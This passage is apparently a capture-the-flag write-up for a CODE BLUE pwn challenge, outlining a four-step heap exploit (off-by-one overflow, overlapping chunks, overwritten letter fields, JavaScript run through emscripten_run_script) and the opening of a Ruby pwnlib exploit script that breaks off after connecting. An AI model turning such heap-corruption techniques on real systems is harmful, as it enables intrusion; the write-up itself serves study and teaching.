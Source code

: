 ### Exploit!

We can exploit this service in 4 steps:

1. Exploit the off-by-one buffer overflow bug and make chunks overlapping.  
2. Overwrite existing letter:  
   * `length`: `len("some Javascript code") + 1` (we need a null byte)  
   * `filter`: 5 (`__stdio_read`)  
   * `buf`: 0xff8 (address of `"_do_post_letters()"` string)  
3. Call `__stdio_read` by sealing letters, and input some Javascript code.  
4. Our code will be executed via `emscripten_run_script`.

Here is my exploit:  
```ruby  
#coding:ascii-8bit  
require "pwnlib"  # https://github.com/Charo-IT/pwnlib

remote = ARGV[0] == "r"  
if remote  
 host = "pwn1.task.ctf.codeblue.jp"  
 port = 31337  
else  
 host = "localhost"  
 port = 54321  
end

class PwnTube  
 def recv_until_prompt  
   recv_until("Select:\n")  
 end  
end

def tube  
 @tube  
end

def add_letter(size, content, to, filter)  
 tube.recv_until_prompt  
 tube.sendline("1")  
 tube.recv_until("Size:\n")  
 tube.sendline("#{size}")  
 tube.recv_until("Content:\n")  
 tube.send(content)  
 tube.recv_until("To:\n")  
 tube.send(to)  
 tube.recv_until_prompt  
 tube.sendline("#{filter}")  
end

def delete_letter(index)  
 tube.recv_until_prompt  
 tube.sendline("3")  
 tube.recv_until("Index:\n")  
 tube.sendline("#{index}")  
end

def seal_letter  
 tube.recv_until_prompt  
 tube.sendline("5")  
end

PwnTube.open(host, port){|t|  
 @tube = t

```